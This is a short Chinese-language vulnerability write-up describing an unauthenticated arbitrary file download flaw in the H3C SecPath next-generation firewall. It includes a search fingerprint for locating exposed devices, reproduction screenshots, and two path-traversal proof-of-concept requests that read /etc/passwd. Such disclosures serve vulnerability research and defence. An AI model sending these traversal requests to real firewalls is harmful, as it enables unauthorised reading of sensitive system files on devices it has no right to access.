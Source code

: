 # H3C SecPath下一代防火墙 sys_dia_data_check 任意文件下载漏洞

## 漏洞描述

H3C SecPath 下一代防火墙  存在功能点导致任意文件下载漏洞，攻击者通过漏洞可以获取敏感信息

## 漏洞影响

<a-checkbox checked>H3C SecPath</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Web user login"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210604115315360.png)



存在漏洞点的功能有两个



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210604115351314.png)



点击下载抓包更改请求



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210604115431531.png)



并且在未身份验证的情况中，也可以请求下载敏感文件，验证POC

```plain
/webui/?g=sys_dia_data_check&file_name=../../etc/passwd

/webui/?
g=sys_capture_file_download&name=../../../../../../../../etc/passwd
```